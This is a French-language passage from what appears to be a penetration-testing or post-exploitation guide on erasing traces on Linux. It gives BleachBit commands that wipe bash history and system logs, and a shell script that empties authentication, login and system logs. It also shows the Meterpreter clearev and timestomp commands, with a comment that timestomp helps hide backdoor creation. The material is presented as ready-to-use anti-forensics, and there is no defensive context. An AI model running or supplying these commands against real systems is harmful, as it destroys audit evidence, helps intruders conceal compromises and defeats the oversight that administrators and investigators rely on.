 ### **🎯 Outils spécialisés tiers**

#### **BleachBit pour Linux**
```bash
# Installation
apt-get install bleachbit

# Utilisation ligne de commande
bleachbit -c system.tmp
bleachbit -c bash.history
bleachbit -c system.logs

# Nettoyage complet automatisé
bleachbit -c bash.history system.cache system.logs system.tmp
```

#### **rmlogs - Script spécialisé**
```bash
# Script personnalisé pour logs
#!/bin/bash
# rmlogs.sh

LOGS="/var/log/{auth,boot,btmp,daemon,debug,dmesg,kern,mail,messages,syslog,user,wtmp,lastlog}.log"
for i in $LOGS; do
    [ -f $i ] && cat /dev/null > $i
done
```

---

## 🎭 3. Partie Meterpreter Linux

### **📋 Modules Meterpreter Linux**

#### **🧹 clearev - Nettoyage Event Logs Linux**
```bash
# Dans session Meterpreter Linux
meterpreter > clearev

# Explication spécifique Linux :
# - Vide /var/log/auth.log, /var/log/syslog, /var/log/messages
# - Plus limité que la version Windows
# - Peut ne pas couvrir tous les logs spécialisés
# - Efficace pour les logs d'authentification SSH
```

#### **🗑️ timestomp - Timestamps Linux**
```bash
# Afficher les timestamps
meterpreter > timestomp /tmp/file.txt -v

# Modifier les timestamps  
meterpreter > timestomp /tmp/file.txt -m "01/01/2020 12:00:00"

# Copier depuis un autre fichier
meterpreter > timestomp /tmp/backdoor -f /bin/ls

# Explication Linux :
# - Modifie atime, mtime, ctime
# - Plus complexe sous Linux (ctime automatique)
# - Utile pour masquer la création de backdoors
# - Attention aux inodes et extended attributes
```
